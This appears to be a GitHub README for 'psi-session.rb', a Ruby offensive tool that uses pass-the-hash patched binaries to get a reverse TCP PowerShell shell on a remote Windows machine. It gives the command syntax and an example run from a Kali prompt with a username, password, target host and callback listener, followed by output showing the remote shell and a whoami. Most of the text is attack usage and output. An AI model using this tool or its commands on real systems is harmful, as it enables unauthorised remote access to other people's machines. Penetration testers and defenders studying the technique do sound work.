 # psi-session.rb
Tool designed to deliver you a reverse tcp powershell prompt directly to your linux commandline.
Execution is currently done via pth patched binaries for the time being.

Syntax:
>
>ruby psi-session.rb <DOMAIN/username> <password> <rhost> <lhost> <lport>

Example:

root@kali:~/projects/psi-session# ruby psi-session.rb bob n0passw0rd1 10.0.0.12 10.0.0.13 5000

Windows PowerShell running as user bob on CLA-WIN7TOOLS

Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami

cla-win7tools\bob

PS C:\Windows\system32> 
